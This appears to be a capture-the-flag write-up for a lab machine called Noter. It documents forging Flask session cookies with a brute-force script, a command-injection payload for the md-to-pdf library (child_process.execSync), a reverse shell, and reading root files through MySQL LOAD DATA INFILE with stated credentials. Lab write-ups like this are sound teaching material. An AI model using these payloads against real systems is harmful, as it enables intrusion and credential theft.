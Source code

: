 # Noter

![Noter.png](Noter/Noter.png)

**May 7, 2022**

Nmap scan to discover open ports and service versions.

![Untitled](Noter/Untitled.png)

The website uses JWT as cookie and we can abuse of this.

[https://pentestbook.six2dez.com/enumeration/webservices/flask](https://pentestbook.six2dez.com/enumeration/webservices/flask)

![Untitled](Noter/Untitled%201.png)

Finding the secret cookie using the tool:

![Untitled](Noter/Untitled%202.png)

After found a secret, we can try craft cookies using usernames until find a valid one.

```python
cat /home/bracketz/SecLists/Usernames/xato-net-10-million-usernames-dup.txt |  xargs -I % sh -c "flask-unsign --sign --cookie \"{'logged_in': True, 'username': '%', 'VIP': True}\" --secret 'secret123' --legacy" | xargs -I % sh -c "echo 'http://10.129.171.123:5000/VIP' | httpx -H 'cookie: session=%' -mc 200 -silent; echo %"
```

```python
import os
import requests
import urllib
command = 'flask-unsign --sign --cookie \"{\'logged_in\': True, \'username\': \'{}\', \'VIP\': True}\" --secret \'secret123\' --legacy'

f = open('/home/bracketz/SecLists/Usernames/xato-net-10-million-usernames-dup.txt', 'r')
URL = "http://10.129.171.123:5000/dashboard"

for user in f.readlines():
	cookie = os.popen("flask-unsign --sign --cookie \"{\'logged_in\': True, \'username\': \'"+user.replace("\n", "")+"\',\'VIP\': True}\" --secret \'secret123\' --legacy").read()
	f = urllib.request.urlopen(URL)
	#f.addheaders = [{"Cookie": "session="+str(cookie[:-1]), "Upgrade-Insecure-Requests":str(1), "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "DNT":str(1), "Connection":"close", "Host":"10.129.171.123:5000"}]
	print(f.status)
```

```python
eyJWSVAiOnRydWUsImxvZ2dlZF9pbiI6dHJ1ZSwidXNlcm5hbWUiOiJibHVlIn0.Ynco5g.UplsI4crwTHqNszl-vto6mYDTao
```

The valid user is Blue, now we got a session with some notes to explore.

![Untitled](Noter/Untitled%203.png)

In a note there are some information that we can use to login on FTP.

![Untitled](Noter/Untitled%204.png)

Successfully FTP login:

![Untitled](Noter/Untitled%205.png)

The file tell us that the passwords must to be in the format “username@site_name!”. 

Now we can try use this format of password to login on other users.

![Untitled](Noter/Untitled%206.png)

The login on user ftp_admin in FTP works. 

![Untitled](Noter/Untitled%207.png)

Analyzing the source code: this function is vulnerable to command injection. 

![Untitled](Noter/Untitled%208.png)

JavaScript function:

![Untitled](Noter/Untitled%209.png)

Payload

```python
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

With this we can explore the vulnerability on the md-to-pdf node library, testing on local machine was possible to execute commands:

![Untitled](Noter/Untitled%2010.png)

[https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

The next step is create a md file with the malicious code

![Untitled](Noter/Untitled%2011.png)

After sending the machine executes successfully the command:

![Untitled](Noter/Untitled%2012.png)

Reverse shell execution:

![Untitled](Noter/Untitled%2013.png)

### Privilege escalation:

Login in MYSQL as root using the credentials “root:Nildogg36”, we can create a table and load of the machine files on the database. 

```jsx
create table t2 (pin varchar(50));
load data infile "/root/root.txt" into table t2 FIELDS TERMINATED BY 'n';
```

After the insertion just select the table and get the root flag.

![Untitled](Noter/Untitled%2014.png)